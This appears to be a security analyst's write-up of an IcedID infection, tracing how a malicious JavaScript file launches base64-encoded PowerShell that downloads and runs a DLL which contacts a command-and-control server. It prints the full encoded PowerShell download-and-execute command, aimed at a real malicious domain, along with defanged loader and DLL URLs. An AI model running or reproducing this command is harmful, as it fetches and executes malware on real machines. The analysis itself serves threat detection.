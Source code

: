 ## **Preamble**

While reviewing telemetry data I identified Base64-encoded strings during the execution of Powershell.

![[/Untitled 541.png|Untitled 541.png]]

![[/Untitled 1 7.png|Untitled 1 7.png]]

## **Analysis**

Upon execution of a malicious JavaScript associated with the IcedID infection, it calls the command interpreter to execute a base64 encoded Windows PowerShell. The PowerShell then communicates outbound to an IcedID redirect domain, followed by a download of a malicious [DLL](https://en.wikipedia.org/wiki/Dynamic-link_library) file. Next, the PowerShell executes the downloaded DLL using the Rundll process. And finally, the DLL is launches a Command and Control (C2) client that generates traffic with IcedID C2 server.

![[/Untitled 2 7.png|Untitled 2 7.png]]

## **Loader phase**

While analyzing the Powershell command I decoded the Base-64 encoded strings.

```PowerShell
poWershell  -ep bypasS -enC SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZgBpAGQAZQBsAGUAbQBhAC4AdABvAHAALwBnAGEAdABlAGYAMQAuAHAAaABwACIAKQA=
```

![[/Untitled 3 7.png|Untitled 3 7.png]]

This scripts retrieves a file from the URL `hxxp[://]fidelema[.]top/gatef1[.]php`

Searching for information about the URL I founded that it is a new one.  
  

![[/Untitled 4 7.png|Untitled 4 7.png]]

![[/Untitled 5 6.png|Untitled 5 6.png]]

![[/Untitled 6 5.png|Untitled 6 5.png]]

  

==`(ObjectCMD)`== `poWershell -ep bypasS -enC SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZgBpAGQAZQBsAGUAbQBhAC4AdABvAHAALwBnAGEAdABlAGYAMQAuAHAAaABwACIAKQA=`

==`(parentCMD)`== `"C:\Windows\System32\WScript.exe" "C:\Users\ADMINISTRATIVO\Downloads\Doc.js”`

  

Looking through the detections I saw the dll file

![[/Untitled 7 5.png|Untitled 7 5.png]]

`hxxp[://]fidelema[.]top/dll/27[.]dll`

![[/Untitled 8 5.png|Untitled 8 5.png]]

Aditional proof

[https://tria.ge/230317-zvpcdaaa46](https://tria.ge/230317-zvpcdaaa46)

[https://blogs.opentext.com/dissecting-icedid-behavior-on-an-infected-endpoint/](https://blogs.opentext.com/dissecting-icedid-behavior-on-an-infected-endpoint/)

[https://github.com/pr0xylife/IcedID/blob/main/icedID_17.03.2023.txt](https://github.com/pr0xylife/IcedID/blob/main/icedID_17.03.2023.txt)

[https://urlhaus.abuse.ch/browse/tag/IcedID/](https://urlhaus.abuse.ch/browse/tag/IcedID/)